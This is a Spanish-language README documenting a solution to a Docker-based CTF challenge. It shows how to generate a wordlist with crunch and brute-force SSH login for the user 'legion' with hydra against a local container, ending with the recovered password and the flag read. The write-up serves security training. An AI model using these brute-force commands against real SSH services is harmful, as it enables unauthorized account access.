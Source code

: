 # 🧪 Reto CTF Docker Hub – Usuario 'legion'
# URIBE / REY / TORRES / GÓMEZ ORTEGA

Este repositorio documenta paso a paso la resolución del reto CTF basado en un contenedor Docker que expone un servicio SSH con el usuario `legion`, cuya contraseña debe ser descubierta a partir de un acertijo.

---

## 🔹 PASO 1: Descargar la Imagen Docker

```bash
docker pull jaiderospina/retoctf:1.0
```

**Descripción:**
Descarga una imagen pública con Ubuntu y servicio SSH habilitado, preconfigurado con un usuario `legion`.

<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/43c48b01-01ad-4a80-abf1-864ddcf927f4" />

---

## 🔹 PASO 2: Levantar el Contenedor

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```

**Explicación de parámetros:**
- `-d`: modo segundo plano (detached).
- `-p 2222:22`: expone el puerto 22 del contenedor en el 2222 del host.
- `--name`: nombre asignado al contenedor para fácil manejo.

**Objetivo:** Tener un contenedor activo con SSH disponible para conexión desde el host.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/82d37956-15fa-44d0-8355-ec4345fd5503" />

---

## 🔹 PASO 3: Generar Diccionario con `crunch`

### Opción A: Letras definidas

```bash
crunch 5 5 sdeg -t E%%%% -o lista.txt
```

### Opción B: Patrón libre con mayúsculas/minúsculas

```bash
crunch 5 5 -t E%%%% -o lista.txt -f /usr/share/crunch/charset.lst mixalpha
```

**Explicación:**
- `5 5`: longitud fija de 5 caracteres.
- `-t E%%%%`: patrón donde la primera letra es "E", las demás varían.
- `-o lista.txt`: salida al archivo.
- `-f ... mixalpha`: usa todas las letras mayúsculas y minúsculas.

**Objetivo:** Crear un diccionario de posibles contraseñas según pistas del acertijo del reto.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/eb8c4421-cb32-427d-92b6-27ca5f474eee" />

---

## 🔹 PASO 4: Ataque de Fuerza Bruta con `hydra`

```bash
hydra -l legion -P lista.txt ssh://localhost:2222
```

**Explicación:**
- `-l legion`: usuario a atacar.
- `-P lista.txt`: diccionario de contraseñas generado.
- `ssh://localhost:2222`: objetivo SSH en el contenedor.

**Resultado esperado:**
Hydra identifica la contraseña correcta e imprime una línea como:

```
[22][ssh] host: localhost   login: legion   password: Esdeo
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/f9a5e395-0b7f-4a26-bd33-76af4b17bc37" />

---

## 🔹 PASO FINAL: Acceso al contenedor por SSH

```bash
ssh legion@localhost -p 2222
```

**Objetivo:**
Ingresar como el usuario `legion` al contenedor una vez descubierta la contraseña, para buscar la bandera (flag) del reto:

```bash
ls
cat flag.txt
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/3543546d-49cc-450b-a452-926a6800e0fb" />

---

## ✅ Conclusión

Este reto CTF pone en práctica habilidades de:
- Manejo de contenedores Docker.
- Generación de diccionarios personalizados con `crunch`.
- Uso de herramientas de fuerza bruta como `hydra`.
- Análisis lógico de acertijos para deducir patrones de contraseñas.

> 💡 Ideal para estudiantes de ciberseguridad, testers o pentesters en formación.
